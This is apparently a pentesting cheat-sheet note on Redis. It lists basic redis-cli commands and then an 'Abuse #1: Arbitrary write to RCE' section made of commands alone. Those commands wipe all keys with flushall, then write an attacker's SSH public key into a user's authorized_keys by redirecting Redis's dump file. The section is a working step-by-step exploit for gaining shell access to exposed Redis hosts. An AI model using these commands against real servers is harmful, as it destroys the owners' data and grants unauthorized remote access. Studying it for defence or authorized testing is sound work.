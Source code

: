```yaml
---
title: "Redis"
date: 2024-7-6
tags: ["redis", "redis-cli", "privesc"]
---
```


---
### Basic Commands

```bash
# Connect
redis-cli -h 127.0.0.1
```

```bash
# Provide password
auth <PASSWORD>
```

```bash
# List current keys
keys *
```

```bash
# Add key
incr key
```

```bash
# Get key value
get key
```

### Abuse #1: Arbitrary write to RCE

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```bash
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```bash
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```bash
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```bash
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```bash
redis-cli -h 127.0.0.1 save
```

<br>
